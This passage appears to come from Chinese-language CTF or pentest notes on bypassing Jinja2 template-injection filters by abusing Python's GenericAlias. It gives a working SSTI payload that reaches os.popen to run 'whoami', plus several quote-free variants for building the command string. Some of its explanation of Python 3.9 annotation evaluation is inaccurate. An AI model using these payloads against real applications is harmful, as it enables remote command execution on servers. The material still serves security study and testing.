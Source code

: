 ><class 'list'>
>```
>
>在 Python 3.9 中，类型注解默认情况下是延迟评估的（通过 `from __future__ import annotations` 实现）。这意味着在类型注解中使用的类型名称将被表示为泛型别名 `<class 'types.GenericAlias'>`，但在运行时会被解析为其实际类型，比如上述例子中的 `List[int]` 最终会在运行时被解析为普通的 Python 列表类型 `list`。
>
>在 Python 3.9 之前，类型注解的解析是即时发生的。也就是说，在你定义一个变量或函数时，类型注解会立即被解析，并与相应的类型绑定。这可能会导致一些循环引用或其他复杂的类型注解的情况下出现问题。
>
>Python 3.9 引入了 `from __future__ import annotations` 语法特性。这个特性使得类型注解在默认情况下是延迟评估的，也称为前向声明。
>
>延迟评估意味着在解析类型注解时，不会立即对类型表达式进行求值和绑定。相反，类型表达式会被视为字符串，直到需要时才进行实际的类型解析。这使得 Python 解释器能够更好地处理复杂的类型注解，避免了循环引用等问题。
>
>在使用泛型别名时，你可以使用各种泛型类型，例如 `Union`、`Dict`、`Tuple` 等，以及自定义的泛型类型别名。

打印 `list[int]` 的结果是 `list[int]`，它其实是一个 `GenericAlias`：

![](https://github.com/wi1shu7/day_day_up/blob/main/daydayup.assets/image-20230803230539610.png)

`list["whoami"]`，加上 jinja2 的 `.` 的特殊性，即可这样：

```
{{dict.mro()[-1].__subclasses__()[134].__init__.__globals__.popen((dict.whoami|string)[6:-2]|join).read()}}
```

利用相同的逻辑，我们可以找出其他 bypass 的姿势，其实都是利用了 `__class_getitem__`，再想办法把结果变成 str 类型：

1. `(dict.whoami|string)[6:-2]|join`
2. `(dict.whoami|title...`
3. `(dict.whoami|trim...`
4. `(dict.whoami|lower...`
5. `(dict.whoami|center...`
6. `(dict.whoami|format...`
7. `(dict.whoami|capitalize...`
8. `(dict.whoami|indent)[6:-2]|join`

下面这些会用到引号，所以可能并不实用：

1. `(dict.whoami|string).split("'").pop(-2)`
2. `(dict.whoami|replace("", "").pop(-2)`
3. `("00"|join(dict.whoami)).split("'").pop(-2)`
4. `(dict.whoami|urlize).split("'").pop(-2)`
5. `(dict.whoami|urlencode).split("%27").pop(-2)`
